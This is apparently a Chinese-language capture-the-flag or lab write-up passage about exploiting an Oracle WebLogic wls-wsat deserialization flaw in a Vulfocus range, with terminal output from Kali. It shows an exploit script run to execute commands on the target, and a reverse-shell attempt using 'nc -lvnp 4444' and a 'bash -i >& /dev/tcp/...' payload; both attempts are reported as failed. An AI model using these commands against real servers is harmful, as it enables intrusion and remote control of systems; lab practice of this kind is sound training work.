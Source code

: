 **执行结果分析**:

```bash
┌──(kali㉿kali-attacker)-[~/ctf-games/fofapro/vulfocus]
└─$ python3 manual_exploit.py http://10.37.133.3:7001 "find / -name '*flag*' 2>/dev/null > /u01/oracle/user_projects/domains/base_domain/servers/AdminServer/tmp/_WL_user/console/console.war/flag_result.txt"

[*] 攻击目标: http://10.37.133.3:7001/wls-wsat/CoordinatorPortType
[*] 执行命令: find / -name '*flag*' 2>/dev/null > /u01/oracle/user_projects/domains/base_domain/servers/AdminServer/tmp/_WL_user/console/console.war/flag_result.txt
[+] HTTP状态码: 500
[+] 响应长度: 5287 字节
[+] 可能攻击成功 (HTTP 500通常表示反序列化触发)
                                                                                                                                               
┌──(kali㉿kali-attacker)-[~/ctf-games/fofapro/vulfocus]
└─$ curl http://10.37.133.3:7001/console/flag_result.txt

<html><head><title>302 Moved Temporarily</title></head>
<body bgcolor="#FFFFFF">
<p>This document you requested has moved temporarily.</p>
<p>It's now at <a href="http://10.37.133.3:7001/console/login/LoginForm.jsp">http://10.37.133.3:7001/console/login/LoginForm.jsp</a>.</p>
</body></html>
```

**❌ 方法一失败原因**:

- WebLogic控制台需要认证，返回302重定向到登录页面
- 写入的文件无法通过Web直接访问

**方法二：使用反向shell获取输出**

```bash
# 在攻击机上监听端口
nc -lvnp 4444

# 执行反向shell命令
python3 manual_exploit.py http://10.37.133.3:7001 "bash -i >& /dev/tcp/10.37.133.3/4444 0>&1"
```

**执行结果**:

```bash
┌──(kali㉿kali-attacker)-[~/ctf-games/fofapro/vulfocus]
└─$ nc -lvnp 4444

listening on [any] 4444 ...
^C
```

**❌ 方法二失败原因**:

- 反向shell连接未成功建立
- 可能是网络防火墙阻止了出站连接
- 或者容器网络配置限制了反向连接
